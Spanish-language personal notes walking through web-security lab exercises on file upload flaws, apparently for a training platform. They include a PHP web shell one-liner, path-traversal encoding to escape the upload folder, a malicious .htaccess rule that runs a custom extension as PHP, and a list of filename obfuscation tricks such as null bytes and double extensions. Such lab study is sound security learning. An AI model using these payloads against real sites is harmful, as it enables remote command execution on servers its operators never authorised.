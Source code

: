 `Content-Type: image/png` por `image\jpeg`

![[Pasted image 20240212114707.png]]

Lo subo y en la siguiente petición en GET  cambio exploit.png por exploit.php

![[Pasted image 20240212114903.png]]

Obtengo secreto en el response
### Lab - Subida de archivos vía PathTraversal

Me logeo y subo un archivo normalmente, veo que al directorio que se sube es a files/avatars
Pruebo con el payload:  `<?php system($_GET['cmd']);?>`
Pondremos %2E%2e%2F para retroceder a /files en la petición /my-account
![[Pasted image 20240226122505.png]]

Iremos probando comandos añadiendo a la url `?cmd=comando` la variable es cmd
![[Pasted image 20240226122723.png]]
Obtengo el secreto en un response 200
![[Pasted image 20240226122658.png]]

### Lab - Bypass lista negra extensiones

En mi /my-account-avatar modificamos los siguientes parámetros
1. Filename
2. Content-type
3. Contenido a `AddType application/x-httpd-php .l33t`

![[Pasted image 20240226125018.png]]
Ahora subimos el archivo con el contenido que queremos pero con la extensión .l33t que hemos añadido antes en nuestra instrucción de .htaccess maliciosa
![[Pasted image 20240226125218.png]]
En http history podemos ver el response de esta petición, que es el secreto ya que se ejecuta el payload
![[Pasted image 20240226130155.png]]

## Métodos File Upload Obfuscation
1. `exploit.pHp`
2. `exploit.php.jpg`
3. `exploit.php.`
4. `exploit%2Ephp`
5. `exploit.asp;.jpg` O `exploit.asp%00.jpg`
### Lab - File Upload Obfuscation

Utilzo un byte nulo para sacar un cmd en la siguiente ruta, 
![[Pasted image 20240227114749.png]]
Le quito la parte del byte nulo y png y ya puedo ejecutar comandos
![[Pasted image 20240227114906.png]]
Obtengo SECRET
### Lab -  Ejecutar código remoto por webshell políglota
